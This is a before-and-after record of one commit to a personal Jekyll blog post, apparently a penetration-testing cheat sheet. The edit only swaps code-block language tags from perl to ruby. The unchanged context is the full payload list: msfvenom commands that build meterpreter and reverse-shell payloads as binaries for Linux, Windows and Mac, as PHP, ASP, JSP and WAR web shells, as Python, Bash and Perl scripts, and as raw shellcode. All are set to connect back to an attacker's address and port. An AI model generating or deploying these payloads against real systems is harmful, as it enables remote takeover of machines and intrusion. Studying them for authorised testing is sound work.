

Before and after one commit to Rayferrufino/Rayferrufino.github.io, a Jekyll site: the page built from _posts/2019-7-16-Msfvenom-payloads.md, in a window 1280 px wide and 1400 px high, scrolled down 294 px. Shown: the whole window, without its empty margins (238-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2019-7-16-Msfvenom-payloads.md

````diff
--- a/_posts/2019-7-16-Msfvenom-payloads.md
+++ b/_posts/2019-7-16-Msfvenom-payloads.md
@@ -6,62 +6,62 @@
 date: 2019-7-16
 ---
 # List payloads
-```perl
+```ruby
 msfvenom -l
 ```
 # Binaries
 ## Linux
 
-```perl
+```ruby
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f elf > shell.elf
 ```
 ## Windows
 
-```perl
+```ruby
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f exe > shell.exe
 ```
 ## Mac
 
-```perl
+```ruby
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho > shell.macho
 ```
 
 # Web Payloads
 ## PHP
 
-```perl
+```ruby
 msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.php
 cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
 ```
 ## ASP
 
-```perl
+```ruby
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
 ```
 ## JSP
 
-```perl
+```ruby
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.jsp
 ```
 ## WAR
 
-```perl
+```ruby
 msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f war > shell.war
 ```
 # Scripting Payloads
 ## Python
 
-```perl
+```ruby
 msfvenom -p cmd/unix/reverse_python LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.py
 ```
 ## Bash
 
-```perl
+```ruby
 msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.sh
 ```
 ## Perl
 
-```perl
+```ruby
 msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f raw > shell.pl
 ```
 # Shellcode
@@ -69,17 +69,17 @@
 
 ## Linux Based Shellcode
 
-```perl
+```ruby
 msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 ```
 ## Windows Based Shellcode
 
-```perl
+```ruby
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 ```
 ## Mac Based Shellcode
 
-```perl
+```ruby
 msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f <language>
 ```
 # Handlers
````
